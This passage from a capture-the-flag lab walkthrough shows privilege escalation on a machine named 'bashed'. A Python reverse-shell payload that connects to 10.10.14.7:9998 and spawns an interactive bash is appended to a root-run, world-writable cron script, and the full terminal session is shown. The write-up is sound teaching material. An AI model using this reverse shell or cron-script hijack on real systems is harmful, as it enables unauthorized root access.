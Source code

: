 ```
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Nov 25 06:58 test.txt
scriptmanager@bashed:/scripts$ 
```

It's a very simple script, and looking at the timestamps for the test.txt file, it looks like th script is being run every minute by root.&#x20;

## Privilege Escalation

Because we can write to the script, we can modify it to execute commands as root. Let's use it to get a reverse shell. First start a netcat listener, then update the "/scripts/test.py" file as follows:

```
scriptmanager@bashed:/scripts$ cat <<EOF >> test.py
cat <<EOF >> test.py
> import socket,subprocess,os
import socket,subprocess,os
> s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
> s.connect(("10.10.14.7",9998))
s.connect(("10.10.14.7",9998))
> os.dup2(s.fileno(),0)
os.dup2(s.fileno(),0)
> os.dup2(s.fileno(),1)
os.dup2(s.fileno(),1)
> os.dup2(s.fileno(),2)
os.dup2(s.fileno(),2)
> p=subprocess.call(["/bin/bash","-i"])
p=subprocess.call(["/bin/bash","-i"])
> EOF
EOF
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.7",9998))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
scriptmanager@bashed:/scripts$ 

```

After less than a minute, we get a root shell, and we can grab the root flag:
